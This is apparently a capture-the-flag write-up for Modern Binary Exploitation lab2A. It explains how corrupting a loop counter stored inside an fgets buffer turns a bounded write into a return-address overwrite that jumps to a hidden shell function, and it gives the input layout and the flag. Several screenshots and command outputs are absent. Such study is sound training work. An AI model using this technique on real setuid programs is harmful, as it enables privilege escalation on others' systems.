








# Modern Binary Exploitation - lab2A
 
| | |
| --- | --- |
| **Lab** | 02 · Memory Corruption |
| **Tier** | A |
| **Target** | `/levels/lab02/lab2A` |
| **Class** | stack buffer overflow (loop-counter corruption)|
| **Goal** |  |


## First look

Logged in as `lab2A` (via the password recovered from `lab2B`), the first thing we look at is the target’s permissions:



As with the earlier tiers, the binary is `setuid` and owned by the next user up, `lab2end`.
 
Before reading any code, we check the mitigation posture with `checksec`.



NX is enabled here, which makes this tier different from its predecessors. NX marks the stack non-executable, so even when we can write onto the stack, the processor refuses to run instructions placed there. Injected shellcode is off the table. Whatever we redirect execution to has to be code that already exists, in the binary or in a loaded library. What that looks like depends on the bug, so we come back to it once we have read the code.

Running it blind shows the surface:

```bash
$ ./lab2A
Input 10 words:
```

It prompts for 10 words and reads from standard input, so the input vector this time is stdin rather than a command-line argument, and it takes several tokens rather than one string. How those words are read, and into what, is what the disassembly has to tell us.

## Disassembling `main`

`main` is a dispatcher. It checks the argument count and, with none, calls `concatenate_first_chars`, which does all the work.



The relevant block:

```asm
0x080487bf <+9>:   cmp    DWORD PTR [ebp+0x8],0x1       ; argc == 1 ?
0x080487c3 <+13>:  je     0x80487e1 <main+43>           ; yes -> do the work
...                                                      ; argc != 1 -> print usage and exit
0x080487e1 <+43>:  call   0x804871d <concatenate_first_chars>
0x080487e6 <+48>:  mov    DWORD PTR [esp],0x8048915
0x080487ed <+55>:  call   0x80485c0 <puts@plt>
```

Two things stand out. The program requires `argc == 1`, meaning it must be run with **no** arguments, which fits the stdin prompt we saw. And `main` holds no buffer of its own, so everything exploitable is inside `concatenate_first_chars`.

## Disassembling `concatenate_first_chars`

This is where input is read and stored. It reads up to ten words, and for each word it keeps the first character, concatenating those characters into a result it later prints.



The locals that matter, read from the code:

```
ebp-0x28   input buffer      (fgets destination, 16 bytes)
ebp-0x1c   loop counter  i
ebp-0x18   write cursor      (a pointer)
ebp-0x14   result area       (= ebp-0x28 + 0x14), where first-chars are collected
```

The cursor is initialised at the top of the function:

```asm
0x08048723 <+6>:   lea    eax,[ebp-0x28]           ; eax = input buffer
0x08048726 <+9>:   add    eax,0x14                  ; eax = ebp-0x14 (result area)
0x08048729 <+12>:  mov    DWORD PTR [ebp-0x18],eax  ; cursor = ebp-0x14
```

The loop runs while `i != 0xa`, that is ten times, and each iteration does this:

```asm
0x08048741 <+36>:  mov    eax,ds:0x804a02c          ; stdin
0x0804874a <+45>:  mov    DWORD PTR [esp+0x4],0x10  ; size = 16
0x08048752 <+53>:  lea    eax,[ebp-0x28]            ; dest = input buffer
0x08048758 <+59>:  call   0x80485b0 <fgets@plt>     ; fgets(buf, 16, stdin)  -- BOUNDED
0x0804875d <+64>:  test   eax,eax
0x0804875f <+66>:  je     ...                        ; break on EOF
0x08048761 <+68>:  movzx  eax,BYTE PTR [ebp-0x28]   ; first char of the word
0x08048765 <+72>:  cmp    al,0xa
0x08048767 <+74>:  jne    ...                        ; break if the line is empty
0x08048777 <+90>:  mov    eax,DWORD PTR [ebp-0x18]  ; cursor
0x0804877a <+93>:  movzx  edx,BYTE PTR [ebp-0x28]   ; first char
0x0804877e <+97>:  mov    BYTE PTR [eax],dl         ; *cursor = first_char   (ONE byte)
0x08048780 <+99>:  mov    eax,DWORD PTR [ebp-0x18]
0x08048783 <+102>: add    eax,0x1
0x08048786 <+105>: mov    DWORD PTR [ebp-0x18],eax  ; cursor++
0x08048789 <+108>: mov    eax,DWORD PTR [ebp-0x1c]
0x0804878f <+114>: add    eax,0x1                    ; i++
```

## The bug
 
Two observations fall out of that loop, and the bug lives in the gap between them.
 
First, `fgets` is bounded. It reads at most 16 bytes into the buffer at `ebp-0x28`, so the word itself cannot run off the end of the buffer and smash the stack. That is the obvious overflow, and it is not here.
 
Second, the write we actually control is the cursor. Each iteration writes exactly one attacker-controlled byte, the word's first character, to a pointer that starts at `ebp-0x14` and advances by one each time. Ten iterations write ten bytes, reaching only `ebp-0xa`, far short of the saved return address at `ebp+0x4`. So with the loop capped at ten, there is no overflow either.
 
The bug is that the loop counter `i` sits at `ebp-0x1c`, which is **inside** the `fgets` buffer. The buffer is at `ebp-0x28` and `i` is twelve bytes into it (`0x28 - 0x1c = 0xc`). A word long enough to fill past byte twelve has `fgets` write over the counter. If we corrupt `i` to a large value, it never reaches ten again, and the loop keeps running. Every extra iteration advances the cursor and writes another controlled byte, so a capped ten-byte write becomes an unbounded one.



## Finding the win target

We will control where the function returns, so we need a worthwhile address to send it to, and with NX enabled it has to be existing code. Listing the functions shows one that `main` never calls:



`shell` is present, unreferenced by the normal flow, and `system` is linked. Disassembling `shell`:



```asm
0x080486fd <+0>:   push   ebp
0x080486fe <+1>:   mov    ebp,esp
0x08048700 <+3>:   sub    esp,0x18
0x08048703 <+6>:   mov    DWORD PTR [esp],0x8048890   ; puts arg
0x0804870a <+13>:  call   0x80485c0 <puts@plt>
0x0804870f <+18>:  mov    DWORD PTR [esp],0x804889b   ; system arg (hardcoded)
0x08048716 <+25>:  call   0x80485d0 <system@plt>
0x0804871b <+30>:  leave
0x0804871c <+31>:  ret
```

Where lab2B's `shell` read its command string from a parameter, this one loads the pointer as an immediate operand (`mov DWORD PTR [esp],0x804889b`) before calling `system`. The argument is fixed in the instruction stream, so there is nothing to supply and no fake frame to construct to deliver it. Returning into the function is enough. Confirming the baked-in string:


So the cursor starts at `0xbffff684` and the return address is at `0xbffff69c`, a difference of `0x18`, which is 24. The cursor reaches the return address on the **25th** write, so writes 25 to 28 land on the four bytes of the return address.

## Extending the loop

The counter-inside-buffer overlap is the claim the rest of the exploit rests on, so we confirm it against the running process rather than infer it from the offsets alone. Breaking at the loop condition, we supply a single fifteen-byte word and read the counter back:

```
gdb-peda$ b *concatenate_first_chars+117
gdb-peda$ run
   (at "Input 10 words:", enter 15 characters)
   AAAAAAAAAAAAAAA
```


The read confirms the overlap directly. The fifteen `A`s fill the buffer with `0x41`, and `fgets` writes its terminating NUL at byte 15. Bytes 12 through 15 of that buffer are the storage for `i`, so the counter takes its value straight from the input:

```
buf[12]=0x41  buf[13]=0x41  buf[14]=0x41  buf[15]=0x00
i = little-endian(41 41 41 00) = 0x00414141
then i++  ->  0x00414142
```

The counter now reads `0x00414142`, far above the loop’s limit of ten. The condition is an inequality (`i != 10`) and `i` only increments, so it never equals ten again for any realistic input, and the loop runs until we end it ourselves with an empty line, whose leading newline takes the break path. Short words entered afterward write only to the front of the buffer and never reach byte twelve, so `i` stays corrupted. One long word is enough.

## Exploitation

Each line on stdin is one word, and only its first byte is written to the advancing cursor. That gives a direct layout:

```
line 1       14 chars    long enough to blow up i; first byte is filler
lines 2-24   1 char      filler, walking the cursor up to the return address
lines 25-28  1 byte      \xfd \x86 \x04 \x08   (shell, little-endian)
line 29      empty       first byte 0x0a -> breaks the loop -> leave; ret -> shell
```

Writes 25 to 28 land on `ebp+0x4` and overwrite the saved return address with `0x080486fd`.
 
Two details decide whether this works. 

The first is the length of the opening word, which has to be 14 characters rather than 15. At 14 characters plus the newline, `fgets` consumes the newline within its 15-character limit, so it leaves no stray newline for the next `fgets` to read as an empty line and break the loop early. Fourteen characters still corrupts the counter: byte twelve holds `0x41` and byte fourteen becomes the newline `0x0a`, so `i` reads `0x000a4142` after the increment, still far past ten.

The second is the input channel. The program reads stdin, not a command-line argument. Passing an argument would miss the input entirely and also fail the `argc == 1` check, sending `main` to the usage branch before the bug is ever reached.

Because `shell` spawns `/bin/sh`, which inherits the same stdin, we keep stdin open with a trailing `cat` so the shell is usable:



FLAG: `D1d_y0u_enj0y_y0ur_cats?`
